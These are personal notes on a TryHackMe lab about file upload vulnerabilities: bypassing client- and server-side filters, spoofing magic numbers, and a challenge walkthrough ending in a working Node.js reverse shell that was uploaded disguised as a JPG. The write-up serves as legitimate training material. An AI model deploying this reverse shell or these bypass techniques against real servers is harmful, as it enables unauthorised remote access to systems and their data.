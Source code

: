 # TryHackMe: Complete Beginner

**author**:: Nathan Acks  
**date**:: 2021-10-09

## Upload Vulnerabilities

### Bypassing Client-Side Filtering

How to bypass:

* Just turn off JavaScript.
* Use Burp Suite to modify the incoming page to remove the filter (often needs to be done before the page is loaded).
* Use Burp Suite to modify the file upload *after* it has passed the filters.
* Use curl to send the file directly to the upload endpoint (make a good upload first to see what that looks like).

To modify the page in Burp Suite, first get the server response by right-clicking on the outgoing intercept and choosing Do intercept > Response to this request. When we forward the request, the response will then be intercepted, and we can modify it as desired.

NOTE: Burp Suite does not intercept JavaScript files; to do this, we'll need to modify the proxy's default file extension filter under "Options".

Modifying the file upload itself is much easier, as this can be done using Burp Suite's normal interception flow. Note that Burp Suite *cannot* attach new files, so we'll need to modify the upload file (extension, etc.) to get past the filters, then undo our changes in the outgoing request.

Sending a file via curl is basically the same procedure as modify the file upload request, except that we let a good file go through so we can see the upload endpoint and then communicate with that directly.

```bash
curl -X POST -F "submit=$SUBMIT_VALUE" \
             -F "${FILE_INPUT NAME}=@$PATH_TO_FILE" $URL
```

### Bypassing Server-Side Filtering: File Extensions

Basically, bypassing server-side filters is going to involve a lot of trial and error until we figure out what the filter is (and how to work around it).

Note that sometimes developers just check to see if a valid extension exists within a file, so things like reverse-shell.jpg.php will work. Happy days if this is you.

Common file extensions for PHP:

* .php
* .phar
* .phtml
* .pht
* .phps (though I've always seen this as *source* code)
* .php# (where `#` is the running PHP major version)

The trick, of course, is not only that you need to upload your file, but that you need to use an extension that the server will execute!

* [PHP (Wikipedia)](https://en.wikipedia.org/wiki/PHP)

### Bypassing Server-Side Filtering: Magic Numbers

To recap: This is (generally) the first 4 bytes of a file. Apparently, text files don't have magic number, so one trick you can do is just insert four ASCII characters in the front of your file and then use a hex editor to change them to an appropriate magic number.

[Wikipedia's list of magic numbers.](https://en.wikipedia.org/wiki/List_of_file_signatures)

The `hexeditor` app is a quick-and-easy hex editor, and `file` can give you a sense of whether you've effectively spoofed a file's magic number.

Note that this can be a lot trickier if you're not dealing with PHP, since many languages don't have PHP's concept of interpreted vs. non-interpreted bits.

### Example Methodology

The `Server` and `X-Powered-By` HTTP headers, if present, can be handy for figuring out what language we're dealing with.

Since many servers turn off directory indexing and randomize file names, its helpful if we can figure out some place that displays or links to the file we just uploaded. If there's no option here, gobuster's -x switch allows a search for specific file extensions (but then the search is *within* a particular directory).

There's probably server-side filtering, so bypass everything client-side and then look for an error message. Using curl to hit an endpoint directly is probably not as useful as Burp Suite here... Tricks:

* Use completely valid and invalid extensions to check for the presence of white/blacklists.
* Try changing the magic number of a known good file to see if magic number filtering is in place.

### Challenge

Potentially interesting directories in /content, /assets, /modules, /admin.

The provided wordlist is combinations of three capital letters. The backgrounds files also follow this pattern (ABH.jpg, LKQ.jpg, SAD.jpg, UAD.jpg). All backgrounds are located in the /content directory (and the form says that uploaded files will be added to the slides), so I'll bet that this is where uploaded files go. I did one good upload (and then a scan with gobuster) to verify this.

The server's response when loading a page indicates that it is running Express. So we'll need a Node.js compatible reverse shell. I used the first option from the Reverse Shell Cheat Sheet (note that the port and IP address in line 6 need to be customized).

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents Node.js from crashing
})();
```

(NOTE: I actually tried the more compact shell listed after this on the Reverse Shell Cheat Sheet, but it didn't work.)

The /assets/js/upload.js script handles uploads. It requires files less than 400k in size with the first three bytes matching the JPG magic number (these are the only three bytes that are consistent between all JPG magic numbers) and an extension of .jpg or .jpeg.

Initially I tried to add the relevant magic bytes to the front of my JS file with the idea that I would edit them out of the request once they made it through the client-side filtering. However, when I viewed the request I discovered that content was base64 encoded, so I just used `base64 -w 0` to encode the shell *without* the leading bytes and replaced the uploaded file entirely.

(NOTE: Initially I changed the MIME type to text/plain, but the server rejected this. Leaving it as image/jpeg worked though, no matter what the file extension. Note that the MIME type on the base64-encoded line didn't seem to matter.)

Re-scanning the /content directory with gobuster for .js files revealed nothing, but rescanning for .jpg revealed that the server was renaming all files with the .jpg extension. Fortunately, the uploaded shell was so much smaller than either the pre-existing images or my uploaded test that it was easy to pick out

THIS IS WHERE I GOT STUCK. I finally wound up looking at the challenge hints, most of which it turned out I'd already figured out. But Hint 9 suggested looking at the /admin page, which I hadn't bothered to try to visit. LET THAT BE A LESSON TO ME - POKE AROUND MORE!

The admin page indicates that it loads modules, so this is how we're going to get the Express app to execute the reverse shell (I'd been wondering how I was going to get it loaded into memory up until this point). Loading ../content/XKM.jpg (which is where my shell wound up) in this page resulted popped the shell, after which grabbing the flag was easy.

* [Express](http://expressjs.com/)
* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [TryHackMe: File Upload Vulnerabilities - Hints](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/)
